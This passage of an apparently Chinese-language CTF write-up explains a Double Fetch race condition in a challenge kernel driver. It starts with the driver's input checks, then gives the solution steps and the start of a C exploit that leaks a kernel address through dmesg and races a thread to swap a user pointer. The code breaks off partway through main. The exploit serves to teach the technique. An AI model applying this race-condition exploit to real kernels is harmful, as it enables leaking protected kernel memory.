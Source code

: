 1. 输入的数据指针是否为用户态数据。
2. 数据指针内flag\_str是否指向用户态。
3. 据指针内flag\_len是否等于硬编码flag的长度。

### 解题思路
根据 `Double Fetch` 漏洞原理，发现此题目存在一个 `Double Fetch` 漏洞，当用户输入数据通过验证后，再将 `flag_str` 所指向的地址改为 flag 硬编码地址后，即会输出 flag 内容。

首先，利用提供的 `cmd=0x6666` 功能，获取内核中 flag 的加载地址。

> 内核中以 `printk` 输出的内容，可以通过 `dmesg` 命令查看。

然后，构造符合 `cmd=0x1337` 功能的数据结构，其中 `flag_len` 可以从硬编码中直接获取为 33， `flag_str` 指向一个用户空间地址。

最后，创建一个恶意线程，不断的将 `flag_str` 所指向的用户态地址修改为 flag 的内核地址以制造竞争条件，从而使其通过驱动中的逐字节比较检查，输出 flag 内容。

### Exploit
```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次数
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//线程函数，不断修改flag指向的地址为内核中flag地址
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//获取内核硬编码的flag地址
    system("dmesg > /tmp/record.txt");
```